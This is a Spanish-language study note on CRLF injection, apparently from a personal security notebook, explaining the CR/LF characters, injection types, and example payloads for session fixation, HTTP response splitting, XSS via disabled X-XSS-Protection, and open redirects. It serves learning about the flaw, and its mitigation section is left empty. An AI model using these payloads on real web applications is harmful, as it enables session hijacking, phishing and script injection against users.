 ### ¿Qué es CLRF Injection?
Un ataque CRLF (Carriage Return Line Feed) es un ataque que manipula los caracteres especiales CL y RF$^1$ que encontramos en los Headers HTTP
>1 --> CR y LF son caracteres de control y bytecode. CR (Carriage Return, `\r`, `0x0D` en hexadecimal) mueve el cursor al principio de la línea, sin avanzar a la siguiente. LF (Line Feed, `\n`, `0x0A`), mueve el cursor a la siguiente línea sin volver al principio de la línea. Se combinan para marcar el final de una línea así:
```
%0D%0A
```
```
\r\n
```

Para comprender como hallar y explotar el CRLF injection debemos saber que es necesario que haya una falta de sanitización propia en como la aplicación gestiona las entradas de usuarios. Cuando el usuario puede inyectar una secuencia CRLF en la solicitud HTTP, pueden inyectarse Headers arbitrarios o dividir la respuesta en 2 partes.

Esto puede sucederse de otros ataques como Cookiejacking, Cookie injection, [[XSS]], [[Ciberseguridad/Apuntes/Vulnerabilidades/Non Technical/Phishing]] mediante redirecciones no deseadas, y Cache Poisoning, así como la falsificación de logs, utilizado para inculpar a agentes inocentes o cubrir huellas.

![[CRLFi.webp]]

##### Tipos de CRLFi
- **Inyección a Log Files**: Pone en riesgo la integridad de los logs y se explota para inculpar partes no involucradas u ocultar actividad maliciosa
- **Response splitting**: Cuando un CRLF se puede inyectar en un response header, pueden inyectarse headers arbitrarios, controlar el contenido de la response o incluso separarla en dos distintas.
- **Header injection**: Es similar al splitting, solo que se centra exclusivamente en inyectar headers maliciosos
##### Metodología
**Session fixation**: Dada esta respuesta HTTP:
```
HTTP/1.1 200 OK
Content-Type: text/html
Set-Cookie: sessionid=abc123
```
Si la sanitización es incorrecta y el atacante puede inyectar exitosamente un payload como este `value\r\nSet-Cookie: admin=true`, la response quedaría así:
```
HTTP/1.1 200 OK
Content-Type: text/html
Set-Cookie: sessionid=value
Set-Cookie: admin=true --> Aquí el atacante inyecta una cookie validada como admin, bypasseando autenticación
```
**XSS**: El ejemplo de arriba requiere de unos controles de seguridad nefastos para funcionar, una forma más realista de explotar CLRF sería creando un nuevo response body para atacar mediante XSS:
```
http://www.example.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Chtml%3EYou%20have%20been%20Phished%3C/html%3E
```
Dada esa URL maliciosa, la respuesta resultante sería esta en caso de sanitización insuficiente:
```
Set-Cookie:en
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 34

<html>You have been Phished</html>
```
Para explotar en concreto XSS, podemos inyectar mediante CLRF el header `X-XSS-Protection` con valor equivalente a 0, entonces inyectaremos nuestro script.
```
http://example.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e
```

```
HTTP/1.1 200 OK
Date: Tue, 20 Dec 2016 14:34:03 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 22907
Connection: close
X-Frame-Options: SAMEORIGIN
Last-Modified: Tue, 20 Dec 2016 11:50:50 GMT
ETag: "842fe-597b-54415a5c97a80"
Vary: Accept-Encoding
X-UA-Compatible: IE=edge
Server: NetDNA-cache/2.2
Link: https://example.com/[INJECTION STARTS HERE]
Content-Length:35
X-XSS-Protection:0

23
<svg onload=alert(document.domain)>
0
```

**Open redirecto**: También se puede inyectar un header `Location` para redirigir al usuario a una página arbitraria:
```
%0d%0aLocation:%20http://myweb.com
```
##### Filter Bypass
[PATT](%0d%0aLocation:%20http://myweb.com)
### Mitigación y prevención
### Fuentes
https://www.imperva.com/learn/application-security/crlf-injection/
https://owasp.org/www-community/vulnerabilities/CRLF_Injection
https://developer.mozilla.org/en-US/docs/Glossary/CRLF
https://lab.wallarm.com/what/ataque-de-inyeccion-crlf/?lang=es